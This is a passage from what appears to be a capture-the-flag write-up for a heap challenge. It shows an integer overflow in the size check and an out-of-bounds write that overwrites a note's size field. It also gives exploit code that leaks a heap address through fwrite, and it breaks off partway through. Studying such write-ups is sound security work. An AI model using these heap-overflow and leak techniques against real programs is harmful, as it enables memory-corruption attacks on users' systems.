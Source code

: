 Now, what happen if we pass a size of `0xffffffff` ? :

- we skip the `if` because `0xffffffff > 0xffffffff` is not true
- `0xffffffff | 0x80 == 0xffffffff`
- `0xffffffff + 8 == 0x7` integer overflow :) , so it calls `malloc(0x7)`
- `note->size = 0xffffffff`

This will be useful later.


# Leaking heap base address
Let's take a look at `show_note` :  
```c
121 void show_note(datanote_t * note) {
122         if(!note) {
123                 printf("No Note.\n");
124                 return;
125         }
126
127         printf("<------------ NOTE 1 ------------>\n");
128         fwrite(&(note->data), note->size, 1, stdout);
129         printf("\n");
130         printf("<-------------------------------->\n");
131         printf("\n");
132 }
```

With the out-of-bounds write, we can overwrite `note->size`, moreover `fwrite` doesn't care of null bytes so we can leak some data placed after `note->data`.  
```py
info("leaking heap address...")
create_note(0)

create_note(127)
delete_note()

create_note(0)
delete_note()
# this free'd chunk now contains a heap pointer
```

We are in this situation :  
```
┌──────────────────────────────────────────────────┐
│        note (size : 0)                           │
├──────────────────────────────────────────────────┤
│ free'd note (size : 127)                         │
├──────────────────────────────────────────────────┤
│ free'd note (size : 0) (contains a heap pointer) │
└──────────────────────────────────────────────────┘
```

We now have to create a new note of size 127 and overwite its `note->size` with a higher value :  
```py
create_note(127)
# 0x111 : chunk size
# 0x1000 : note->size
edit_note(b"A"*127 + b"B"*117 + p64(0x111) + p32(0x1000) + p32(0xdead))
```

